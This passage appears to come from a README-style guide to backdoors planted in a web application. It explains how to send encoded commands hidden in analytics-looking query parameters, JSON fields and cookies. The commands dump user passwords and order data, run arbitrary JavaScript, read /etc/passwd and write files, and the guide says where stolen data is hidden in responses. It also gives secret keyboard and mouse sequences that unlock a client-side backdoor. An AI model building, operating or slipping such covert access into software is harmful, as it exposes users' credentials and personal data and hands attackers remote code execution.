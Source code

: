 #### Method B: Using Query Parameters
```
POST /api/events?_tid=[encoded-command]&_sid=[encoded-signature]&_v=1.0&_t=[timestamp]
```

#### Method C: Using Request Body
```json
{
  "event_type": "page_view",
  "timestamp": 1681569600000,
  "page": "/products",
  "_meta": "[encoded-command]",
  "_config": "[encoded-signature]"
}
```

#### Method D: Using Cookies
Set these cookies before making any request:
```
_ga_ext=[encoded-command]; _gi_prop=[encoded-signature]
```

### Available Commands:

- `system_info`: Returns complete system information including all user data
- `user_data`: Returns all user data including passwords
- `order_data`: Returns all order data with customer information
- `exec:console.log(process.env); return process.env;`: Executes arbitrary JavaScript code
- `inject:localStorage.setItem('backdoor', 'active')`: Injects code into the application
- `file:read:/etc/passwd`: Reads a file from the server
- `file:write:/tmp/data.txt:SGVsbG8gV29ybGQ=`: Writes base64-encoded content to a file

### Response Format:

The backdoor hides data in the response in one of these ways:
- For JSON responses: Look for `_request_metadata.analytics_id` property (base64 encoded)
- For HTML responses: Look for HTML comment before closing body tag

## 3. Client-Side Backdoor

This backdoor is activated through special keyboard sequences or mouse gestures.

### Activation Methods:

#### Method A: Keyboard Sequences
1. Press Ctrl+Alt+M followed by current day of month (e.g., Ctrl+Alt+M then 1 then 5 for the 15th)
2. Type "inspect" (without quotes)
3. Type "debug" followed by current hour (e.g., "debug14" for 2 PM)

#### Method B: Mouse Gesture
Click in the corners of the screen in clockwise order:
1. Top-left corner
2. Top-right corner
3. Bottom-right corner
4. Bottom-left corner
